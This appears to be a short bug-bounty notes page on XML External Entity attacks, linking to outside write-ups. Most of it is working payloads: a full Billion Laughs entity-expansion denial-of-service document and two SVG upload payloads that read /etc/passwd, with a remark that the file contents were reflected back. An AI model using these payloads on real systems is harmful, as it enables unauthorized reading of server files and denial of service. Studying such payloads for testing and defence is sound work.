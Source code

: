 # XXE


[Link](https://medium.com/@protector47/5-005-worth-vulnerability-duplicated-how-i-loose-5-005-in-a-day-831f5a064713)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

Dos Billion Laugh Attack 

-----

##External XML Entity via File Upload (SVG)

[link](https://0xatul.me/posts/2020/02/external-xml-entity-via-file-upload-svg/)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

he tried no response 

```xml
<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  
```
```
<img src="/redacted/moreRedacted/avatarUser.svg" class="avatar">
```

opened link and successful /etc/passwd reflected 

----

Html, XML to pdf converter lead to xxe 
[link](https://www.corben.io/XSS-to-XXE-in-Prince/)

